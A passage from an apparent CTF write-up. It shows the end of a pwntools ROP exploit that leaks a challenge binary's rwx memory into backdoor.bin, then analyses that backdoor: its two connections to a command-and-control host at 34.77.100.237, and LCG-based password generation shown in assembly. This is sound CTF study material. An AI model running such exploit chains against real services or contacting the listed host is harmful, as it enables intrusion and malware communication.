 ```python3
            p64(0),
            p64(0),
            p64(send_plt)
        ])

    # send payload in username and password
    io.sendlineafter(b': ', b''.join(chain))
    io.sendlineafter(b': ', b'AAAAAAAA')
    io.recvline()

    # read rwx sections and write them into the file
    with open('backdoor.bin', 'wb') as file:
        for start, size in regions:
            print(hex(start), size)
            file.write(io.recvn(size))


if __name__ == '__main__':
    with remote('0.0.0.0', 50009) as io:
        main(io)
```

And we've got a file `backdoor.bin` with rwx sections. Let's disassemble them.

## Analyzing the backdoor

The analysis of the backdoor is pretty straightforward, it does not contain any obfuscation. I won't provide a full assembler listing, if you want you can get the raw dump [here](/assets/2020-07-28-cybrics-ctf-2020-incident/backdoor.bin). The backdoor performs two socket connections:

1. connect to `34.77.100.237:65278` and register
2. connect to `34.77.100.237:64250` and send data here

The backdoor have some non-trivial logic while registering itself on port `65278`. After some analysis we've understood that it uses `ID` and `password`. The `ID` it gets from the server, but the `password` is generated by some cryptographic algorithm. But it's not too hard, since it was an [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator). Here is two functions related to LCG:

```
initialize      proc near
                mov     rax, 100000000h
                mov     [rax], rdi
                retn
initialize      endp

lcg_step        proc near
                mov     rdi, 100000000h
                imul    eax, [rdi], 1103515245
                add     eax, 12345
                and     eax, 7FFFFFFFh
                mov     rdi, 100000000h
                mov     [rdi], rax
                retn
lcg_step        endp
```
